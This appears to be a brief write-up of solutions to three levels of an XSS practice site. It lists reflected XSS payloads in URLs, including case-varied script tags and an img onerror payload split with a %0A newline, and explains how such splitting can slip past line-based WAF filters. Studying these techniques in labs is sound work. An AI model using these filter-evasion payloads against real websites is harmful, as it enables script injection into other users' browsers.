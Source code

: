 Level 1: [http://www.zixem.altervista.org/XSS/1.php?name=<script>alert(1337)</script>](https://zixem.altervista.org/XSS/1.php?name=%3Cscript%3Ealert(1)%3C/script%3E) \
Level 2: [http://www.zixem.altervista.org/XSS/2.php?name=<scrIpt>alert(1337)</scrIpt>](https://zixem.altervista.org/XSS/2.php?name=%3CscrIpt%3E%20alert(1)%3C/scrIpt%3E) \
Level 3:[(https://zixem.altervista.org/XSS/3.php?name=zxm%0A<img src=”x” onerror=alert(1337)>)](https://zixem.altervista.org/XSS/3.php?name=zxm%0A%3Cimg%20src=%E2%80%9Dx%E2%80%9D%20onerror=alert(1337)%3E)) \
Using %0A URL-encoded representation of a newline character (Line Feed, LF, \n) in ASCII and UTF-8 encoding.
Some WAFs only scan for dangerous keywords within a single line. If an attack payload is split across multiple lines (e.g., using %0A for a newline), the filter may fail to detect it, allowing bypass techniques for XSS, SQLi, and other attacks.

